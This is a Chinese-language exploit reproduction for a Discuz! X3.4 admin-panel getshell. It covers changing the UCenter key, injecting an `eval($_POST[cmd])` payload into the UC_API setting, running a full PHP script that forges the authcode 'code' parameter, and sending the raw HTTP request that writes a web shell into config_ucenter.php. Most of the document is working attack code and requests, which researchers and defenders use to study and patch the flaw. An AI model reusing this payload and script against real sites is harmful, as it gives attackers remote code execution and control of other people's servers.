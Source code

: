 # Discuz!X3.4 后台修改UCenter配置getshell漏洞

# Discuz!X3.4 后台修改UCenter配置getshell漏洞

## 漏洞复现

漏洞利用流程如下：

1. 进入后台`站长`-`UCenter设置`，修改UCenter通信密钥为`123456`。
2. 修改UC_API=`http://your-ip/discuz!x3.4/uc_server');eval($_POST[cmd]);//`，点击保存。
3. 利用UC_KEY(dz) 生成code参数，执行脚本`php ucode.php`生成code。
4. Burpsuite带code参数发送GET请求，结果为1表示成功。

![img](images/1589986439989.png)

生成code参数的脚本 ucode.php：

```php
<?php
$uc_key="123456";//此处填写刚才UCenter设置的值
$time = time() + 720000;
$str = "time=".$time."&action=updateapps";
$code = authcode($str,"ENCODE",$uc_key);
$code = str_replace('+','%2b',$code);
$code = str_replace('/','%2f',$code);
echo $code;

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
  $ckey_length = 4;
  $key = md5($key != '' ? $key : '123456');
  $keya = md5(substr($key, 0, 16));
  $keyb = md5(substr($key, 16, 16));
  $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

  $cryptkey = $keya.md5($keya.$keyc);
  $key_length = strlen($cryptkey);

  $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
  $string_length = strlen($string);

  $result = '';
  $box = range(0, 255);

  $rndkey = array();
  for($i = 0; $i <= 255; $i++) {
    $rndkey[$i] = ord($cryptkey[$i % $key_length]);
  }

  for($j = $i = 0; $i < 256; $i++) {
    $j = ($j + $box[$i] + $rndkey[$i]) % 256;
    $tmp = $box[$i];
    $box[$i] = $box[$j];
    $box[$j] = $tmp;
  }

  for($a = $j = $i = 0; $i < $string_length; $i++) {
    $a = ($a + 1) % 256;
    $j = ($j + $box[$a]) % 256;
    $tmp = $box[$a];
    $box[$a] = $box[$j];
    $box[$j] = $tmp;
    $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
  }

  if($operation == 'DECODE') {
    if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
      return substr($result, 26);
    } else {
      return '';
    }
  } else {
    return $keyc.str_replace('=', '', base64_encode($result));
  }
}
?>
```

带code参数发送GET请求：

![img](images/1589987534699.png)

请求数据包：

```
GET /discuz!x3.4/api/uc.php?code=ac7091oTLALD6X24gZeiX5YmqDkLnX4ivIqx1jDnA7NhUAcHHOX3fWWOLWpGwSwfQfz4r5Pgf86bRlDTRkQ% HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ar;q=0.8
Connection: close
Content-Length: 133

<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
<item id="UC_API">http://your-ip/discuz!x3.4/uc_server</item>
</root>
```

Shell 地址：

```
http://your-ip/discuz!x3.4/config/config_ucenter.php
```


